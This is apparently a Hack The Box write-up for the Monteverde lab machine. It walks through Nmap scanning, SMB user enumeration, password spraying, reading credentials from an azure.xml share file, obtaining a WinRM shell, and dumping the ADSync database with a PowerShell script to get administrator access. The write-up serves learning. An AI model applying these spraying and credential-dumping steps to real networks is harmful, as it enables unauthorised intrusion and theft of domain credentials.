









This box is rated medium difficulty on HTB. It involves us password spraying on SMB to find an XML file with user credentials inside, as well as abusing Azure Admin group privileges by using a powershell script to dump the ADSync database in order to get administrator access over the box.

## Scanning & Enumeration
I kick things off with an Nmap scan against the given IP to find all running services on the host. Repeating the same for UDP is good practice, but returns nothing on this system.

```
$ sudo nmap -sCV 10.129.228.111 -oN fullscan-tcp

Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-06 22:16 CST
Nmap scan report for 10.129.228.111
Host is up (0.060s latency).
Not shown: 988 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-02-07 04:17:00Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
Service Info: Host: MONTEVERDE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: -5s
| smb2-time: 
|   date: 2026-02-07T04:17:06
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 60.66 seconds
```

Immediately, we can see that this box is Windows running with Active Directory components. Judging from the default scripts that were ran, LDAP is leaking the box's domain of 1Megabank.local1 which I add to my `/etc/hosts` file.

We can confirm this by trying to authenticate on SMB, which is also what I'll enumerate first since it's always pretty quick.



Guest authentication is disabled for SMB, so we'll need to revisit this once we gather valid user credentials later on. I use NetExec to enumerate system accounts on the domain and find four potential users named `mhope, dgalanos, roleary,` and `smorgan` along with some service accounts. Another important thing to note is the presence of an AD synchronization service account which replicates the on-premise AD users, groups, and creds to a directory service (usually the cloud).

## Password Spraying
Since there are no web components, it looks like we'll need to find a way of grabbing a successful login. Before brute forcing to authenticate over SMB, WinRM, etc, I make a wordlist of all user account names and try each one with the password being the account named reused. This can work because some policies have passwords set to match usernames by default and people can forget.



Looks like the SABatchJobs account has the username reused, let's enumerate any shares it has access to now.



## Initial Foothold
We get two non-standard shares that we have read permissions for, being `users$` and `azure_uploads`. The azure one seems to be a place for cloud applications to upload files to, however there are none in this one. Taking a look in the users share gives us a singular file under mhope's directory.



Reading the contents of the `azure.xml` file gives us the password for their account.



I revert back to netexec to test if they have access to WinRM onto the domain and get a `pwned!` message indicating that we can grab a shell.

```
$ nxc winrm 10.129.228.111 -u 'mhope' -p '[REDACTED]'
WINRM       10.129.228.111  5985   MONTEVERDE       [*] Windows 10 / Server 2019 Build 17763 (name:MONTEVERDE) (domain:MEGABANK.LOCAL)
/usr/lib/python3/dist-packages/spnego/_ntlm_raw/crypto.py:46: CryptographyDeprecationWarning: ARC4 has been moved to cryptography.hazmat.decrepit.ciphers.algorithms.ARC4 and will be removed from cryptography.hazmat.primitives.ciphers.algorithms in 48.0.0.
  arc4 = algorithms.ARC4(self._key)
WINRM       10.129.228.111  5985   MONTEVERDE       [+] MEGABANK.LOCAL\mhope:[REDACTED] (Pwn3d!)
```

Next I use [evil-winrm](https://github.com/Hackplayers/evil-winrm) to grab a shell on the box as mhope and grab the user flag under her desktop directory. With a working interface on the box, I move to escalating privileges to administrator.



## Privilege Escalation
I use `whoami /all` to list all privileges that we have and groups we are apart of. This shows that we are apart of the Azure Admins group, making me think that we must be able to abuse these permissions to read sensitive information on the system (at least pertaining to configuration).



I spend some time researching admin abuse in Azure AD Connect and come across [this good article](https://blog.xpnsec.com/azuread-connect-for-redteam/). It explains that we utilize ADSync to dump administrator creds by using a custom PowerShell script. I also find [this PoC](https://github.com/Hackplayers/PsCabesha-tools/blob/master/Privesc/Azure-ADConnect.ps1?source=post_page-----808ffe5cdded---------------------------------------) which can be uploaded to the target host in order to grab secrets from the Azure database.

```
*Evil-WinRM* PS C:\Users\mhope\Documents> upload Azure-ADConnect.ps1
*Evil-WinRM* PS C:\Users\mhope\Documents> Import-Module .\Azure-ADConnect.ps1
*Evil-WinRM* PS C:\Users\mhope\Documents> Get-Module 

ModuleType Version    Name                                ExportedCommands
---------- -------    ----                                ----------------
Script     0.0        Azure-ADConnect
Manifest   3.1.0.0    Microsoft.PowerShell.Management     {Add-Computer, Add-Content, Checkpoint-Computer, Clear-Content...}
Manifest   3.1.0.0    Microsoft.PowerShell.Utility        {Add-Member, Add-Type, Clear-Variable, Compare-Object...}
```

After importing the script as a PowerShell module, we can call it with the server option being localhost and the database of ADSync to grab the plaintext password for administrator.



Lastly, we can use a tool like evil-winrm or psexec to get a shell on the box once again to grab the final flag under the administrator's Desktop folder.



That's all y'all, this box was a cool to me because it showed how misconfigurations in cloud applications can lead to a full domain compromise. I hope this was helpful to anyone following along or stuck and happy hacking!
